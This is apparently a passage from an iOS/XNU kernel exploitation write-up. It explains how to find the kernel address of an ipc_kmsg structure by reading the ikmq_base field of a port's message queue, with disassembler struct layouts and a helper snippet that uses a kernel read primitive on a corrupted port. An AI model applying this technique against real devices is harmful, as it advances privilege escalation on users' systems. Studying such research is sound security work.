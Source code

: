 The method for obtaining `ipc_kmsg` allocation address is simple.

Earlier, to verify data loaded via IOSurface we accessed `kdata.kobject` field in `ipc_port` structure.

Similarly, by adding `ikmq_base` offset to `kdata.kobject` field, we can compute `ipc_kmsg` address.

```cpp
00000000 struct ipc_port_0 // sizeof=0xA8
00000000 {
00000000     ipc_object ip_object;
00000010     ipc_mqueue ip_messages
...

00000000 struct ipc_mqueue // sizeof=0x50
00000000 {                                       // XREF: ipc_port_0/r
00000000                                         // ipc_port_1/r ...
00000000     ipc_mqueue::$2E0228C480B494B3768A87C5A9B2CB97 data;
00000048     ipc_mqueue::$60FD45BA8CAC1DB02FF64F7437356E71;
00000050 };

00000000 union ipc_mqueue::$2E0228C480B494B3768A87C5A9B2CB97 // sizeof=0x48
00000000 {                                       // XREF: ipc_mqueue/r
00000000     ipc_mqueue::$2E0228C480B494B3768A87C5A9B2CB97::$C897FC1EFAC1BB0E6F68B660AC1584BD port;
00000000     ipc_mqueue::$2E0228C480B494B3768A87C5A9B2CB97::$F200E06D1AE0F2D5875A47A59DB37CDA pset;
00000000 };

00000000 struct __attribute__((aligned(8))) ipc_mqueue::$2E0228C480B494B3768A87C5A9B2CB97::$C897FC1EFAC1BB0E6F68B660AC1584BD // sizeof=0x48
00000000 {                                       // XREF: ipc_mqueue::$2E0228C480B494B3768A87C5A9B2CB97/r
00000000     waitq_0 waitq;
00000030     ipc_kmsg_queue messages;
...

00000000 struct ipc_kmsg_queue // sizeof=0x8
00000000 {                                       // XREF: ipc_mqueue::$2E0228C480B494B3768A87C5A9B2CB97::$C897FC1EFAC1BB0E6F68B660AC1584BD/r
00000000                                         // thread_0/r ...
00000000     ipc_kmsg *ikmq_base;
00000008 };
```

Implemented in code, it looks like this,

```cpp
#if ENABLE_HELPER
    //helper; obtain struct ipc_kmsg's addr
    uint64_t ikmq_base = kread64(find_port(corrupted_kmsg_port) + off_ipc_port_ikmq_base);
    uint64_t ipc_kmsg_addr = ikmq_base;
    INFO("struct ipc_kmsg(port=0x%x) = 0x%llx\n", corrupted_kmsg_port, ipc_kmsg_addr);
    //
    #endif
```
